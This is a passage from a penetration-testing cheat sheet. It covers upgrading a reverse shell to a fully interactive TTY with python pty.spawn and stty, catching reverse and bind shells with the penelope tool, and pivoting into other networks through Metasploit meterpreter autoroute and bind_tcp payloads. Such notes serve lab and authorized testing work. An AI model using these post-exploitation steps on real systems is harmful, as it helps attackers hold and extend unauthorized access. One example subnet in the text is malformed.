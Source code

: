 **Fully interactive shell**

```sh
# 1 Step
python3 -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'

# 2 Step
CTRL + Z # Press CTRL + Z to background process and get back to your host machine

# 3 Step
stty raw -echo; fg

# 4 Step
export TERM=xterm
```

**Automatic**

```sh
# https://github.com/brightio/penelope
# Currently only Unix shells are fully supported. 
# There's basic support (netcat-like interaction + logging)

./penelope.py <port>               # Reverse shell
./penelope.py -c <target> <port>   # Bind shell
```

## Pivoting & Port forwarding

**Metasploit (meterpreter) - Autoroute**

Anytime we want to contact a machine within one of the networks specified, we will go through meterpreter session and use that to connect to the targets.

```sh
# Find subnet (the 2nd target host may be in other network)
ipconfig                     # IP: 19.9.29.148. Netmask: 255.255.240.0

# Add routes
run autoroute -s <subnet>    # Ex: run autoroute -s 10.10.0.29.0/20

# Displays active routing table
run autoroute -p
```

We can perform a scan. `auxiliary/scanner/portscan/tcp`&#x20;

**Notes**

* Scanning with metasploit is limited (we can't discover software version etc...) so it's better to use nmap. To do that we need to perform port forwarding.
* Since **target\_sys\_2 does not have a route back to attacker\_sys,** when you user an exploit**, use bind\_shell payload.** Ex: `windows/meterpreter/bind_tcp`

***
